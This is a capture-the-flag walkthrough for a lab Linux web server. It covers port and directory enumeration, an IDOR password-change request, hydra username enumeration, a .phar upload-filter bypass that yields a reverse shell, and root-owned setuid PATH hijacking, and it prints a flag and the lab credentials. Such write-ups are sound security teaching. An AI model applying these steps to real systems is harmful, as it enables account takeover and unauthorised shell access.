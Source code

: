 # CTF 03
```bash
IP=192.168.10.16
```

## nmap

```bash
$ nmap -sV -Pn $IP -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-13 17:55 CEST
Nmap scan report for 192.168.10.16
Host is up (0.0043s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 17.09 seconds

```

## gobuster

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt    
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.16
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/06/13 17:56:24 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/config               (Status: 301) [Size: 315] [--> http://192.168.10.16/config/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.10.16/css/]   
/index.php            (Status: 200) [Size: 810]                                   
/js                   (Status: 301) [Size: 311] [--> http://192.168.10.16/js/]    
/server-status        (Status: 403) [Size: 278]                                   
/upload               (Status: 301) [Size: 315] [--> http://192.168.10.16/upload/]
                                                                                  
===============================================================
2022/06/13 17:56:26 Finished
===============================================================
```

upload looks interesting

## http
`$IP:80`
apache server with php

open in browser, register an account
```
username: pascal
email: pascal@bosym.de
password: pascal
```

after login, the upload page is available, exposing a directory listing with a file called [`d.jpg`](d.jpg)

nothing in metadata

```bash
$ file d.jpg
d.jpg: JPEG image data, Exif standard: [TIFF image data, big-endian, direntries=1, orientation=upper-left], baseline, precision 8, 1280x1280, components 3

$ exiftool d.jpg
ExifTool Version Number         : 12.41
File Name                       : d.jpg
Directory                       : .
File Size                       : 172 KiB
File Modification Date/Time     : 2022:06:14 11:57:24+02:00
File Access Date/Time           : 2022:06:14 11:58:21+02:00
File Inode Change Date/Time     : 2022:06:14 11:57:35+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Current IPTC Digest             : d41d8cd98f00b204e9800998ecf8427e
IPTC Digest                     : d41d8cd98f00b204e9800998ecf8427e
Image Width                     : 1280
Image Height                    : 1280
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1280x1280
Megapixels                      : 1.6
```

### change password

using a authenticated account and burb, you can change the password of other userids by changing the id in the post request using burp.

```
POST /dashboard.php?id=3 HTTP/1.1
Host: 192.168.10.16

password=root&id=1
```

changed the password of user 1 and 2, since my account is 3.

now find the usernames using bruteforce by creating new users. if the username exists the registration will fail:

```bash
$ hydra -L /usr/share/wordlists/simple-users.txt -p root $IP http-post-form "/register.php:username=^USER^&password=^USER^&email=^USER^%40bosym.de:Register Successful" -V
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
[80][http-post-form] host: 192.168.10.16   login: admin   password: root
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-14 12:54:39
```


so username is either `admin` or `GUEST`.


when login with `admin:root` you can upload a file to the server.

## reverse shell
Sorry , Allow Ex : jpg,png,gif

it works with [`.phar`](shell.phar), for some reason.

`nc -lvp 1337`

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/
$ ls -lah /home
total 16K
drwxr-xr-x  4 root     root     4.0K Jul 16  2021 .
drwxr-xr-x 20 root     root     4.0K Jul 15  2021 ..
drwxr-xr-x  4 darkhole darkhole 4.0K Jul 17  2021 darkhole
drwxrwxrwx  5 john     john     4.0K May 15 15:40 john

$ ls -lah /home/john
total 76K
drwxrwxrwx 5 john     john     4.0K Jun 14 15:32 .
drwxr-xr-x 4 root     root     4.0K Jul 16  2021 ..
-rw------- 1 john     john     2.0K Jun 14 14:40 .bash_history
-rw-r--r-- 1 john     john      220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john     john     3.7K Jul 16  2021 .bashrc
drwx------ 2 john     john     4.0K Jul 17  2021 .cache
drwxrwxr-x 3 john     john     4.0K Jul 17  2021 .local
-rw------- 1 john     john       37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john     john      807 Jul 16  2021 .profile
drwxrwx--- 2 john     www-data 4.0K Jun 14 15:15 .ssh
-rwxrwx--- 1 john     john       33 Jun 14 15:06 file.py
-rwxrwx--- 1 john     john        8 Jul 17  2021 password
-rwsr-xr-x 1 root     root      17K Jul 17  2021 toto
-rw-rw---- 1 john     john       44 May 15 15:36 user.txt

```

there is a [`toto`](toto) binary file. Using [`objdump -d toto > disassembly.asm`](disassemly.asm) and `strings toto`, we can see, that the calls `setgid`, `setuid` and `system` are being used. When executed the result is:

```bash
$ /home/john/toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

so it sets the uid for the `system('id')` command. From the [Linux man page](https://man7.org/linux/man-pages/man3/system.3.html) for system under caveats it says:

> Do not use system() from a privileged program (a set-user-ID or
> set-group-ID program, or a program with capabilities) because
> strange values for some environment variables might be used to
> subvert system integrity.  For example, PATH could be manipulated
> so that an arbitrary program is executed with privilege.

so we change the path variable, create a "fake" `id`, execute it and change the path back.

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

$ echo "#!/bin/bash
/bin/bash -i" > ./id

$ chmod +x id

$ PATH=/home/john ./toto

john@darkhole:/home/john$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

john@darkhole:/home/john$ cat password
root123

john@darkhole:/home/john$ cat user.txt
cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}
```

now we can login via ssh with `john:root123` using `ssh john@$IP` to close the reverse shell.


## Flags

User: `cyberctfd{0yjA5vhJWYkTXX2UALbw8Q7yMKqASU73}`
